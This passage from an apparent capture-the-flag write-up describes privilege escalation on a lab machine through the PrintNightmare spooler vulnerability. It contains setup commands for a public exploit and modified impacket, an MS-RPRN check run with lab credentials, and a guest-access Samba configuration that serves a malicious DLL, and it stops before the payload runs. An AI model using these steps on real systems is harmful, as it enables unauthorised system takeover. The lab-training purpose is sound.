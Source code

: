 
## Privesc
I performed inital enumeration in my shell for a while but did not notice anything immediately. Then it struck me. The release data of this box, the naming choice, the printer firmware update webapp. They are all hinting it will be a printer related vulnerability. This first to spring to mind is the recent PrintNightmare vulnerability.

I have used this vulnerability before with the python script from cube0x0 found [here](https://github.com/cube0x0/CVE-2021-1675/issues/19)

Note for this version of the exploit a modified version of impacket is required. I install this in a virtual environment.

```bash
# create venv and activate
python3 -m venv .venv
source .venv/bin/activate

# clone both repositories
git clone https://github.com/cube0x0/CVE-2021-1675.git
git clone https://github.com/cube0x0/impacket

# navvigate to modified impacket and install with venv activated
cd impacket
python3 ./setup.py install
```

Now with the local setup required, we can proceed.

Firstly let's check if MS-RPRN enabled, this is required for the exploit to work remotely.
```bash
$ impacket-rpcdump driver/tony:liltony@10.10.11.106 | grep -i MS-RPRN
Protocol: [MS-RPRN]: Print System Remote Protocol

```
we see it is, so proceed.

For this exploit we need to host a malicious DLL. We can do this with the Samba server on kali. let's back up smb config for Samba. This new config will allow us to load our malicious dll from our Samba server on kali with no authentication. Some people have reported being able to do this using `impacket-smbserver` but I had no success trying this. Remember to revert this back to normal afterwards! 

```bash
mv /etc/samba/smb.conf /etc/samba/smb.conf.bk


# new config
/etc/samba/smb.conf ->

[global]
    map to guest = Bad User
    server role = standalone server
    usershare allow guests = yes
    idmap config * : backend = tdb
    smb ports = 445
    min protocol = SMB2

[smb]
    comment = Samba
    path = /tmp/
    guest ok = yes
    read only = no
    browsable = yes
    force user = nobody
```
